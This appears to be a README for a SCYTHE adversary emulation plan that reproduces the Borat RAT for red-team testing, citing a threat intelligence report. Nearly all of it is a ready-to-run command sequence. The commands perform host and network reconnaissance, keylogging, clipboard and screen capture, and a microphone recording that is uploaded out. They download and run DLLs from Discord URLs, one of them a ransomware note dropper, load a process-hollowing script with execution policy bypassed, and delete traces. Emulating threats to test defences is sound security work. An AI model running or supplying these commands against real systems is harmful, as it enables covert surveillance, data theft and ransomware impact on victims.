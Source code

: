 # Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

## Manual Adversary Emulation with SCYTHE
Start a SCYTHE campaign and manually execute the below commands:
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
keylogger --current
keylogger --stop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/963125834342862878/AudioRecorder.dll" --dest %USERPROFILE%\Audio.dll
upsh --cmd $assembly = [Reflection.Assembly]::LoadFile("$env:USERPROFILE\Audio.dll"); $instance = New-Object AudioRecorder.AudioRecorer; $result =$instance.AudioInit(10);
delay --time 10
uploader --remotepath C:\Users\Public\Document\micaudio.log.txt
uploader --remotepath C:\Users\Public\Document\micaudio.wav
run powershell.exe del C:\Users\Public\Document\micaudio.log.txt
run powershell.exe del C:\Users\Public\Document\micaudio.wav
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/960944365335904286/Ransomware.dll" --dest %USERPROFILE%/Desktop/Ransomware.dll
run cmd /c cd %USERPROFILE%\Desktop & rundll32 Ransomware.dll,DropNote
run powershell del $env:USERPROFILE\Desktop\Ransomware.dll -Force -ErrorAction Ignore
downloader --src "https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Start-Hollow.ps1" --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
run powershell.exe del $env:userprofile/Start-Hollow.ps1
controller --shutdown
```
